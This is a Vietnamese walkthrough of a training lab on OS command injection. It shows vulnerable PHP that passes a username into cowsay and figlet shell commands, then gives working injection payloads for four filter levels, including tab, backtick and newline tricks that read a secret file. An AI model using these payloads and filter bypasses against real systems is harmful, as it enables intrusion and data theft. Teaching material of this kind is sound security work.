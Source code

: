 # Write-up 4IN1_BIZCARD_GENERATOR
Đây là write up của bài lab tiếp theo về chủ đề OS Command Injection của Cyberjutsu. Mọi người làm bài lab bằng cách dùng lệnh `docker-compose up --build` rồi truy cập vào localhost:5555 nhé.

Trước hết, chúng ta sẽ nói sơ qua về cách web này hoạt động

Chúng ta cần ba tham số đó là level, type, và username. Tham số username sẽ được xử lí thông qua hàm `validate_username` tùy vào level. Cuối cùng, web sẽ xử lí các lệnh `cowsay` khác nhau theo `type` mà ta chọn.
```php
switch($type){
    case 'eyes':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f eyes -n 
        EOF;
        break;
    case 'turtle':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f turtle -n 
        EOF;
        break;
    case 'dragon':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f dragon -n 
        EOF;
        break;   
    case 'figlet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n ; figlet "Hello $username"
        EOF;
        break;
    case 'toilet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n ; toilet 'Hello $username'
        EOF;
        break;  
    case 'inception':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n | cowthink -n
        EOF;
        break; 
    case 'tenet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n | cowthink -n | cowsay -n 
        EOF;
        break;              
    case 'random':
    default:
        $cowsay = <<<EOF
        fortune | cowsay -n | cowthink -n
        EOF;
}
```
Nhìn vào đoạn code trên, ta có thể nhận ra rằng web này có khả năng bị lỗ hổng OS Command Injection (chúng ta chỉ cần tìm cách thoát ra khỏi các cặp nháy là được). Tuy vậy, có khai thác được hay không thì cũng phụ thuộc vào cách tham số `username` được xử lí như thế nào.
## **Level 1**
```php
$input = addslashes($input);
```
Ở đây, biến input chỉ được xử lí qua hàm `addslashes`. Hàm này sẽ tự động thêm dấu `\` vào trước các kí tự cần escaped gồm có `\`, `'` và `"` (Nguồn: [addslashes](https://php.net/addslashes)). Tuy vậy, điều này cũng vô nghĩa do các kí tự ở giữa hai giữa dấu nháy đơn trong linux shell đều bị "vô hiệu hóa" tức là chỉ được xem như là kí tự bình thường kể cả dấu `\`. Do đó, chúng ta chỉ cần nhập ``';command #`` là ổn (nhớ là đừng chọn type random)

![test](./image/level1/1.png)

-   `';ls / #`

![ls](./image/level1/2.png)

-   `';cat /secret_file #`

![payload](./image/level1/3.png)

## **2. Level 2**
```php
$input = substr($input,0,10);
$input = addslashes($input);
```
Ở level này, ta chỉ được sử dụng tối đa 10 kí tự. Do mình đã biết flag sẽ nằm ở thư mục `/`, nên payload của level này sẽ là: `';cat /* #`

![payload](./image/level2/1.png)
## **3. Level 3**
```php
$input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
$input = addslashes($input);
```
Ở level này, chúng ta không được sử dụng các kí tự quan trọng như là dấu cách, `"`,`'`, `#`, `/`,... (Nguồn: [asciitable.com](https://www.asciitable.com/)) bởi vì các kí tự đó sẽ bị xóa đi. Như vậy làm sao để vượt qua được rào cản này đây?

Nhìn lại code một lần nữa, ta để ý thấy type figlet có cách xử lí hơi khác là sử dụng dấu `"` trong lệnh `figlet`. 
```php
case 'figlet':
    $cowsay = <<<EOF
    echo 'Hello $username' | cowsay -n ; figlet "Hello $username"
    EOF;
```
Dấu `"` khác dấu `'` ở chỗ là các kí tự đặc biệt ở giữa cặp `"` vẫn giữ lại các chức năng vốn có của nó. Vì vậy, ta vẫn có thể thực hiện lệnh lồng trong lệnh khác bằng cặp `` ` ``. Như vậy, chúng ta không cần đến dấu `'`

![ls](./image/level3/1.png)

Nhưng chúng ta vẫn còn dấu cách và dấu `/`. Trong linux shell, dấu cách có thể thay thế bằng dấu tab (ở vị trí 09 trong bảng ascii). Với dấu `/`, chúng ta có thể xử lí bằng cách di chuyển ngược về thư mục `/` rồi `cat secret_file` ra (chúng ta vẫn dùng được dấu `;` để thực thi nhiều câu lệnh cùng một lúc).

**Payload:** gán tham số username = `` `cd%09..;cd%09..;cd%09..;cat%09secret_file` `` và type = figlet. Kết quả như hình dưới:

![payload](./image/level3/2.png)

## **4. Level 4**
```php
$input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
$input = preg_replace("/[\x{3b}-\x{40}]/","",$input);
$input = addslashes($input);
```
Ở Level này có thêm các kí tự không được phép nhập vào, đáng chú ý là dấu `;`. Tuy vậy, ngoài `;`, `|`, `&`, chúng ta vẫn có thể phân cách các lệnh bằng dấu xuống dòng có vị trí trong bảng ascii là 0A (tương tự như lúc chúng ta Enter để thực hiện lệnh)
**Payload:** gán tham số username = `` `cd%09..%0acd%09..%0acd%09..%0acat%09secret_file` `` và type = figlet. Kết quả như hình dưới:
